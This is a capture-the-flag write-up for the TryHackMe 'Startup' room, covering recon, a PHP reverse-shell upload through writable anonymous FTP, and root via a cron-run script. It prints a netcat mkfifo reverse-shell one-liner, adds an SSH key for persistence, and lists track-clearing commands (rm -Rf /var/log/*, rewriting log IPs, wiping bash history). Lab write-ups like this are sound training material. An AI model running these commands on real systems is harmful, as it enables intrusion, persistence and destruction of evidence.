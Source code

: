 ```yaml
---
title: "THM:startup"
subtitle: "TryHackMe CTF room: https://tryhackme.com/room/startup"
categories: [ctf, thm]
tags: [ctf,nmap,gobuster,dirbuster,session,broken-authentication,javascript,apache,ubuntu,john,ssh2john,linpeas,privesc,cron]
---
```

# THM:startup

URL: [https://tryhackme.com/room/startup](https://tryhackme.com/room/startup) [Easy]

## Reconnaissance

Description of the room:

> We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

## Scanning

### Running: `nmap`

Ran the following:

> `nmap -sC -sV x.x.x.x`

Interesting ports found to be open:

```python
PORT   STATE SERVICE REASON
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Anonymous FTP has an Among Us meme, and a text file telling people to stop leaving memes on that file share. The `ftp` folder is writable. That could be something?

Also see: [nmap.log](nmap.log)

### Running: `gobuster`

Ran the following:

> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://x.x.x.x`

Interesting folders found:

```python
/files                (Status: 301) [Size: 312] [--> http://10.10.159.60/files/]
```

Also see: [gobuster.log](gobuster.log)

### Running: `nikto`

Ran the following:

> `nikto -h x.x.x.x`

Nothing interesting found.


Also see: [nikto.log](nikto.log)

## Gaining Access

### Unprivileged Access

Since the anonymous FTP folder `/ftp/` is writeable, you can do a `put revshell.php` into that folder, and then execute that reverse shell from the `/files/revshell.php` URL in the browser.

That will get you a primitive shell running as the `www-data` user.

### Privilege Escalation (power user)

First, to privesc into the `lennie` account (you can see their home folder under `/home/`), look in the `incidents` folder for a pcap file. If you download that file and view it with Wireshark, you can see there was a password attempt. It was a bad password attempt for `www-data`, but that IS the password for `lennie`.

Meaning, you can now do `su - lennie` with that newly found password. You are now logged-in as `lennie`.

### Privilege Escalation (root)

The Hint from TryHackMe for root privesc is "scripts". Well, in Lennie's home folder there is a `~/scripts/` folder. In there is a bash script that calls `/etc/print.sh`. In short, it looks like something external kicks off that script, but we don't know what it is.

So, we modify `/etc/print.sh` to reverse shell back to our workstation by adding something like:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.x 8080 >/tmp/f
```

and then listen on your workstation with something like this:

```bash
nc -lvnp 8080
```

After a minute or so, you've got a prompt, and it's a root prompt!


## Maintaining Access

To not have to deal with half-broken shells, I added my SSH public key to `/home/lennie/.ssh/authorized_keys` and set the permissions on that file to `chmod 600 ./authorized_keys`. That way, instead of working out of reverse shells with bad rendering, I could now just:

```bash
ssh lennie@x.x.x.x
```

## Clearing Tracks

This is a test machine. However, in a Red Team scenario, we could:

### Delete relevant logs from `/var/log/` - although that might draw attention.

> `rm -Rf /var/log/*`

### Search and replace our IP address in all logs via: 

> `find /var/log -name "*" -exec sed -i 's/10.10.2.14/127.0.0.1/g' {} \;`

### Wipe bash history for any accounts we used via: 

> `cat /dev/null > /root/.bash_history`
>  
> `cat /dev/null > /home/lennie/.bash_history`

## Summary

Completed: [2023-07-20 21:01:11]